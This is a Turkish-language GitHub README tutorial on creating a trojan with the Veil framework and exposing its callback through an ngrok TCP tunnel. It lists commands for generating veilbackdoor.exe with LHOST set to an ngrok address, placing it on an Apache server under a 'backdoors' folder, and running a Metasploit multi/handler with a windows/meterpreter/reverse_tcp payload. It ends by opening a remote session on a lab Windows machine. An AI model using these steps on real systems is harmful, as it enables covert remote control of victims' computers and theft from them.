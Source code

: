 # Veil-Ngrok-Calistirma
Veil Framework ile Ngrok Çalıştırarak Trojen Oluşturup Çalıştırmak


Veil Framework Yükleme Referansı: https://github.com/Veil-Framework/Veil


- [Ngrok.com](https://ngrok.com/) adresine giderek üye oldum.
- Site üzerinden “Download for Linux” diyerek sanal Kali makinama ngrok’u indirdim
- 2. Kısımda yazan authentication token’ımı kayderek siteden çıkış yapıyorum.
 ![ngrok site](https://user-images.githubusercontent.com/67163428/191236942-63485be5-51da-4a83-bdb2-b8a87b25e0c2.png)


- Download klasörü içinde indirdiğim Zip dosyası içinden Ngrok’u çıkardım
 ![ngrok zip çıkarılış](https://user-images.githubusercontent.com/67163428/191237212-ef13070b-bab6-49c3-ac54-4f09fbcaee61.png)


- Terminal ekranını açarak Download klasörünün içine gidiyorum, ls diyerek dosyaları kontrol ediyorum ve “ngrok” dosyasını görüyorum.
- Kaydetmiş olduğum authentication tokenı ./ngrok yaparak yapıştırıp tokenın dosyaya yazılmasını sağlıyorum.
 ![ngrok token kaydetme](https://user-images.githubusercontent.com/67163428/191237348-f267496a-8a87-4d60-933c-bf556e30e2f4.png)


- ./ngrok tcp 4848 servisini çalıştırıp kullanılmayan bir port ekliyorum.
 ![ngrok çalıştırma](https://user-images.githubusercontent.com/67163428/191237409-7ee692ce-69ab-41a0-ad84-5e4545198730.png)


- Ngrok çalışmaya başladıktan sonra gelen ekran üzerinde tcp://0.tcp.eu.ngrok.io’a ya 11810 portundan gelen verileri benim makinamın 4848 portuna aktaracağını anlıyoruz.
 ![ngrok çalışması ](https://user-images.githubusercontent.com/67163428/191237456-aae6c597-4ee8-4485-b5ee-0a6034f5b3f5.png)


- Trojen yaratmak için Veil kullanıyorum.
- Veil dosyasının kurulu olduğu yere giderek, Veil.py dosyasını çalıştırmak için “python3 Veil.py” yazıyorum.
 ![veil çalıştırma](https://user-images.githubusercontent.com/67163428/191237534-4918ef2e-2da1-4b1e-9fa7-7146eb6a5094.png)


- Çıkan ekranda 2 araç kullanılabilir olduğunu görüyorum ve 1. Aracı kullanıyorum
 ![veil iç 1](https://user-images.githubusercontent.com/67163428/191237598-cb81a1b3-0737-4200-8a10-40b79f3faec8.png)


- “list” diyerek payload listelerini görüyorum.

 ![veil iç 2](https://user-images.githubusercontent.com/67163428/191237642-27d90eda-9e55-4c8c-97bc-3dd5bb2aaf65.png)
 
 ![veil iç 3](https://user-images.githubusercontent.com/67163428/191237676-251896cd-351d-45bd-ae81-c30235050540.png)


- “use 7” diyerek 7. payloadı seçerek devam ediyorum.
 ![veil iç 4](https://user-images.githubusercontent.com/67163428/191237688-1102d3b4-fceb-4026-9007-84defebcbfba.png)


-“set LHOST 0.tcp.ngrok.io” yazıyorum. Ngrok üzerinden bize verilen adresi girdim.

- Port olarakta “set LPORT 11810” giriyorum
 ![veil iç 5](https://user-images.githubusercontent.com/67163428/191237931-9790d9fe-b387-4bc5-b377-15838e8aee39.png)


-“generate” diyerek benim için oluşturmasını istiyorum daha sonra bir isim vererek dosyanın nerede oluştuğunu görebiliyorum.
 ![veil iç 6](https://user-images.githubusercontent.com/67163428/191237959-0fad0315-d39f-418e-a973-37d49feee0ff.png)


- “/var/lib/veil/output/compiled/veilbackdoor.exe” içerisinde olan dosyamı keserek 
 /var/www/html/backdoors/” klasörünün içine aktarıyorum. (backdoors klasörünü isteğe bağlı oluşturabilirsiniz)


--------------


- Apache servisimi çalıştırıyorum.
- Dinlemeyi yapmak için msfconsole içine giriyorum.
 ![apache ve msfconsole çalıştırma](https://user-images.githubusercontent.com/67163428/191238053-41d8cdc6-b95a-43cb-b25f-8a5b5a4621c4.png)


- “ use exploit/multi/handler” 
“ set payload windows/meterpreter/reverse_tcp” komutlarını giriyorum
 ![msfconsole iç 1](https://user-images.githubusercontent.com/67163428/191238141-a1f4c3d7-8a82-4bfc-af9c-4a6327dd1986.png)


- “show opitons” içine girerek LHOST VE LPORTA BAKIYORUM.
“set LHOST 0.0.0.0” VE “set LPORT 4848” yazarak düzenleme yapıyorum.
- “exploit -j -z” diyerek dinlemeyi başlatmış oluyorum.
 ![msfconsole iç 2](https://user-images.githubusercontent.com/67163428/191238171-8f9fe884-0a44-4b34-8abb-5c1f11d337e0.png)


--------------


- Oluşturduğum sanal windows makinasını çalıştırıyorum.
- Tarayıcıyı açarak “10.0.2.15/backdors” adresine giderek veilbackdoor.exe dosyasını indiriyorum.
 ![windows indirme](https://user-images.githubusercontent.com/67163428/191238393-81524185-c4fd-44db-bd01-b06b3d3ab8ca.png)


- exe dosyasını açtıktan sonra kali makinamızın terminaline bir sessions düşüyor.
 ![msfconsole 3](https://user-images.githubusercontent.com/67163428/191238361-c3a3f034-6061-45d7-af9d-f2c47448c033.png)


- “sessions -l” yaparak tüm sessionsları görüyoruz ve bize gerekli olan “sessions -1” diyerek windows makinamızın içine giriyoruz. 
- “sysinfo” yapara makinamızın ele geçirildiğini kanıtlamış oluyoruz.
 ![msfconsole 4](https://user-images.githubusercontent.com/67163428/191238381-4063fce5-c328-4225-99d7-e330c2c7c02b.png)



